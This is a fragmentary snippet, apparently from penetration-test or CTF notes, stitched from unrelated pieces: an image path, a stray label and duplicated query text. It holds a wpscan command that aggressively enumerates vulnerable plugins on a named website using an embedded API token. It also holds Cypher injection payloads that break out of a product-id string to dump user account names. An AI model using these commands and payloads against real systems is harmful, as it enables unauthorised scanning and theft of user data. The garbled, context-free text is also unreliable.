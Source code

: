 
```python

wpscan --url https://ramontolentino.com/ --enumerate vp, vt --plugins-detection aggressive --api-token 2eDLKKmeCr9jmIMNaIB3QHbFBO0UPilO7JvHkmBxzLA --random-user-agent -t 20

```


"MATCH (result: Product { id: "<id>" }) RETURN result// " }) RETURN result


MATCH (result: Product { id: "8f056c44-df4a-4b15-b2c5-466536bed3cd" }) OPTIONAL MATCH (u:User) RETURN result { .*, description: u.username } // " }) RETURN result